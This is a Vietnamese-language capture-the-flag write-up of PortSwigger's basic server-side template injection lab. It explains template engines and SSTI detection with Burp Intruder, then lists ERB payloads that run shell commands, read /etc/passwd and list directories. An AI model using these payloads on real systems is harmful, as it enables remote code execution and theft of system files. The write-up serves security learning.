









# Basic server-side template injection
https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-basic

## Giải thích nhanh về Template
- Ví dụ ta có 1 form tạo event như sau

- Underlying Code để render

- Để ý thấy phần gọi là `dynamic content` như `<%= @event.description %>`.
- Phần `static content` như là `Description:`
- Sau khi web render xong thì

- Ngoài ra ta có thể thấy 1 basic template như email: 

### Systax
- Cú pháp ở mỗi Programming languages sẽ khác nhau
- Ví dụ
  - ERB (Embedded Ruby- is a templating language based on Ruby): `<%= @event.description %>`
  - Jinja (is a web template engine for the Python programming language): `{{ user.username }}`
  - FreeMarker (is a free Java-based template engine): `${name}`
- Ngoài ra còn nhiều template engine khác...

### Injection
- Lấy ví dụ về event template với cách lấy dynamic data như sau

- Giá trị `event.name` được lấy động từ database để render cho templete và hiển thị lên web, cách này coi như ko thể injection vì người dùng ko thể thay đổi, hay chèn script từ ngoài vào.
- Vậy nếu như nó được phép nhập từ ngoài vào (user.input) để hiển thị trực tiếp lên thì sao, ví dụ

- Ta có thể detect là thử điền vào giá trị User input: `<%= 7*7 %>`
- Nếu templete xử lý và hiển thị theo những gì mình inject vào nghĩa là ta detect đc SSTI


## Steps


## Phân tích
- Ta view detai 1 sản phẩm thì thấy `Unfortunately this product is out of stock` thông báo hiện trên homepage

- Ngoài ra, in Burp, ta thấy 1 GET req sử dụng `message` parameter để render thông báo đó.
- Ta detect SSTI xem sao: gởi GET này vào Intruder, add payload cho giá trị `message`.

- Insert payload với 2 cách:
  - Cách 1: dùng payload của [HackTrick](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#detect) rồi dùng nó trong Intruder as Simple list.

  - Cách 2: với Burp pro, ta có sẵn payload

- Nhớ Grep-Extract

- Run attack xem

- Đây chính là template dùng ERB


## Resolve lab
- Do là ERB, nên trong web hacktrick, ta search các payload để exploit (https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)
```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

<%= system('cat /etc/passwd') %>
<%= `ls /` %>
<%= IO.popen('ls /').readlines()  %>
<% require 'open3' %><% @a,@b,@c,@d=Open3.popen3('whoami') %><%= @b.readline()%>
<% require 'open4' %><% @a,@b,@c,@d=Open4.popen4('whoami') %><%= @c.readline()%>
```
- Check với whoami command, nhớ Ctrl+U để URL encoded. User là carlos


- Xóa file morale.txt

- Done
